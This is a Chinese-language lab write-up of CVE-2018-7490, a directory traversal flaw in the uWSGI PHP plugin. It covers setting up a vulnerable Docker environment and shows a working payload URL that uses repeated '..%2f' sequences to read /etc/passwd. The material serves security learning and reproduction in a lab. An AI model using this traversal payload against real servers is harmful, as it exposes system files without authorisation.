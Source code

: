 # uWSGI PHP目录穿越漏洞 CVE-2018-7490

## 漏洞描述

uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言。

uWSGI 2.0.17之前的PHP插件，没有正确的处理`DOCUMENT_ROOT`检测，导致用户可以通过`..%2f`来跨越目录，读取或运行`DOCUMENT_ROOT`目录以外的文件。

## 环境搭建

运行存在漏洞的uWSGI服务器：

```
docker-compose up -d
```

运行完成后，访问`http://your-ip:8080/index.php`即可看到phpinfo信息，说明uwsgi-php服务器已成功运行。

![image-20220302163241788](./images/202203021632153.png)

## 漏洞复现

访问`http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`，成功读取文件：

![image-20220302163149769](./images/202203021631956.png)

